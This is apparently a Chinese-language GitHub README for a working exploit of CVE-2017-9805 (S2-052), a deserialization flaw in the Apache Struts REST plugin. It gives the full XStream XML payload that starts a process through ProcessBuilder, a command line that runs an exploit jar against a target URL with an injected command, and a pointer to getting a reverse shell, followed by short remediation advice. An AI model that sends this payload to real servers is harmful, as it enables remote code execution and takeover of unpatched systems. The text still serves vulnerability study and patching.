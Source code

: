 # CVE-2017-9805 （S2-052）反弹Shell Exploit

## 影响版本
```
Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
```

## Poc

```
Content-Type: application/xml

<map>
<entry>
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>calc</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>

Windows <command><string>calc</string></command>

Mac <command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>
```

## 漏洞复现详情

https://secfree.com/article-333.html

## 利用

```
java -jar CVE-2017-9805-Exploit.jar http://192.168.199.246:8080/struts2-rest-showcase/orders.xhtml "ping -c 2 [你所使用的服务器IP地址]"
tcpdump -i eth0 icmp (抓包icmp数据包)
```
##反弹shell方法
![exploit](https://github.com/iBearcat/S2-052/blob/master/exploit.jpg?raw=true)

执行命令回显请https://github.com/luc10/struts-rce-cve-2017-9805

## 修复方案

1.建议尽快升级到 2.5.13版本。

2.在不使用时删除 Struts REST插件，或仅限于服务器普通页面和JSONs：

```
<constant name=”struts.action.extension” value=”xhtml,,json” />
```

3.限制服务器端扩展类型，删除XML支持。
